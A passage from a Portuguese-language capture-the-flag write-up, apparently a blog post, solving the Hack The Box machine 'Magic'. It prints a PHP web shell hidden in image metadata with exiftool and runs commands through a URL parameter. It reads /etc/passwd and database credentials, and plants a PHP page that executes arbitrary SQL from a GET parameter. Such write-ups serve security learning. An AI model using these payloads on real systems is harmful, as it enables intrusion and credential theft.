 ```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' bbb.php.jpeg
```

e fiz o upload com sucesso. Para testar se tinha dado certo acessei a url: http://10.10.10.185/images/uploads/bbb.php.jpeg?cmd=ls passando o comando ls para ser executado e vi a listagem de arquivos do diretório upload do sistema ser exibida. Execução de código obtida.

Feito isso, tratei de obter uma shell. [Existem maneiras variadas de se fazer isso](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), basta poder executar código no sistema.

Cai na shell como o usuário www-data, o usuário do apache que não tem muitas permissões, nem mesmo a de ler na /home a flag do user. O próximo passo seria escalar privilégios para pegar o usuário theseus, que foi o único nome que descobri quando mandei um ls em /home e um cat em /etc/passwd.

Há um tempo venho tentando ownar as máquinas no htb, por isso a gente acaba pegando o jeito de onde provavelmente as coisas estão. Foi assim que resolvi dar uma olhada nos arquivos do servidor web localizados, tradicionalmente, em /var/www/. Foi lá que, lendo o código fonte do sitezinho de upload de imagens, descobri no arquivo /var/www/Magic/db.php5 as credenciais para o banco de dados:

```
www-data@ubuntu:/var/www/Magic$ cat /var/www/Magic/db.php5
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
    [...]
```

Hum. Poderia ser a senha do usuário? Quem não gosta de reutilizar a mesma senha em todo lugar? Economizar espaço na memória cerebral?

Tentei logar usando o comando su -l theseus e inserindo essa senha mas não dei sorte. Theseus era um cara esperto.

Esse foi um dos momentos que me enrolei sem necessidade, para variar. Tudo porque a máquina não dispunha do cliente de linha de comando [mysql](https://dev.mysql.com/doc/refman/8.0/en/mysql.html). Descobri que não sabia como me conectar ao banco sem ele. Tentei usando as ferramentas que haviam na máquina, como o [mysqladmin](https://dev.mysql.com/doc/refman/8.0/en/mysqladmin.html) mas não fui longe. Não sabia da existência dessas outras ferramentas, então passei um tempo lendo manuais e divagando sobre formas de ler o banco. Sim, falhei em perceber que existia o mysqldump e que ele, provavelmente, me deixaria ler as informações das tabelas. Foi quando tive que recorrer a criatividade, também conhecida como gambiarra.

Me perguntei: qual seria a outra forma de me conectar ao banco sql? Rapidamente me veio a mente usar PHP. A página de login fazia isso. Bastou copiar, colar, apagar boa parte e alterar um pedaço. Criei um rascunho de cliente sql e o salvei na raiz do site como ratf.php:

```
<?php
session_start();
require 'db.php5';
try {
    $pdo = Database::connect();
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
    echo $_GET[cmd];
    $stmt = $pdo->query($_GET[cmd]);
    $user = $stmt->fetch();
    Database::disconnect();
    echo "<pre>";
    print_r ($user);
    } catch (PDOException $e) {
        echo "Error: " . $e->getMessage();
        echo "An SQL Error occurred!";
    }
?>
```
